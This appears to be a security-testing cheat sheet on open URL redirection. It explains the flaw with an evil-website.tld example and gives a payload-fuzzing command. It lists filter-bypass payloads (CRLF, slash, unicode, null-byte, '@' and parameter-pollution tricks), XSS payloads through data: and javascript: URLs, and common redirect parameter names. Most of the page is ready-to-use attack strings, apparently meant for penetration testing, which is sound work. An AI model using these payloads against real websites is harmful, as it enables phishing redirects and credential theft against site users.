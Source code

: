 # Open URL Redirection

> Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Un-validated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Summary

- [Open URL Redirection](#open-url-redirection)
  - [Summary](#summary)
  - [Exploitation](#exploitation)
  - [HTTP Redirection Status Code - 3xx](#http-redirection-status-code---3xx)
  - [Fuzzing](#fuzzing)
  - [Filter Bypass](#filter-bypass)
  - [Common injection parameters](#common-injection-parameters)
  - [References](#references)

## Exploitation

Let’s say there’s a `well known` website - https://famous-website.tld/. And let's assume that there's a link like :

```powershell
https://famous-website.tld/signup?redirectUrl=https://famous-website.tld/account
```
After signing up you get redirected to your account, this redirection is specified by the `redirectUrl` parameter in the URL.   
What happens if we change the `famous-website.tld/account` to `evil-website.tld`?

```powershell
https://famous-website.tld/signup?redirectUrl=https://evil-website.tld/account
```

By visiting this url, if we get redirected to `evil-website.tld` after the sign-up, we have an Open Redirect vulnerability. This can be abused by an attacker to display a phishing page asking you to enter your credentials.


## HTTP Redirection Status Code - 3xx

- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)

## Fuzzing

Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" & "////" to bypass "http" blacklisted keyword

```powershell
//google.com
////google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Using "?" characted, browser will translate it to "/?"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```


Host/Split Unicode Normalization
```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

## References

* filedescriptor
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)
* [Host/Split
Exploitable Antipatterns in Unicode Normalization - BlackHat US 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
